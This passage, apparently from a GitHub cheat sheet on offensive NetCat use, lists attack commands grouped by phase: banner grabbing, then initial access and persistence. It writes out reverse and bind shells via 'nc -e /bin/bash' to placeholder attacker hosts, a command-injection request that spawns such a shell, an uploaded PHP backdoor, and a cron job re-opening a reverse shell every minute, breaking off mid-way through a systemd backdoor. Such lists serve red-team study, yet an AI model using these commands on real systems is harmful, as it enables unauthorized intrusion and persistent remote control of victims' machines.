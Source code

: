     ```
4. **External Web Application Enumeration**: Enumerates publicly accessible web application resources by retrieving `/robots.txt`.
    ```bash
    echo -ne "GET /robots.txt HTTP/1.1\r\nHost: <target_ip>\r\n\r\n" | nc -v <target_ip> 80
    ```
5. **Detection of Hidden Services via Banner Grabbing**: Detects hidden services by examining their banners for clues.
    ```bash
    echo -ne "HEAD / HTTP/1.0\r\n\r\n" | nc -v <target_ip> <target_port>
    ```

#### Initial Access

NetCat is often used during the initial stages of an attack to establish a foothold in the target environment.

1. **Command Injection Exploitation**: Exploits command injection vulnerabilities to execute NetCat commands on the target.
    ```bash
    curl http://<target_ip>/vulnerable_endpoint -d "cmd=nc -e /bin/bash <attack_ip> <attack_port>"
    ```
2. **Backdoor Implantation via File Inclusion**: Uploads a backdoor using a file inclusion vulnerability, establishing initial access.
    ```bash
    echo "<?php system('nc -e /bin/bash <attack_ip> <attack_port>'); ?>" > backdoor.php
    curl -T backdoor.php http://<target_ip>/uploads/
    ```
3. **Exploitation of Insecure Services**: Directly exploits insecure services by opening a shell on the target system.
    ```bash
    nc <target_ip> <target_port> -e /bin/bash
    ```
4. **Client-Side Exploits**: Executes a client-side exploit that triggers NetCat on the victim's machine.
    ```bash
    nc -l -p <attack_port> -e /bin/bash &
    echo "open <target_ip> <target_port>" | nc <target_ip> <target_port>
    ```
5. **Exploit Delivery via Malicious Payloads**: Delivers a carefully crafted exploit payload to compromise the target.
    ```bash
    echo -ne "exploit_payload" | nc -v <target_ip> <target_port>
    ```

#### Persistence

Maintaining access to a compromised system is crucial for long-term operations, and NetCat provides various methods to establish persistence.

1. **Scheduled Task for Reverse Shell**: Creates a cron job that establishes a reverse shell every minute.
    ```bash
    echo "* * * * * /bin/bash -c 'while true; do nc <attack_ip> <attack_port> -e /bin/bash; sleep 60; done'" | crontab -
    ```
2. **Persistence Through Service Manipulation**: Uses `systemd` to create a persistent backdoor that starts on boot.
    ```bash
    echo "[Unit]
    Description=Persistent Backdoor
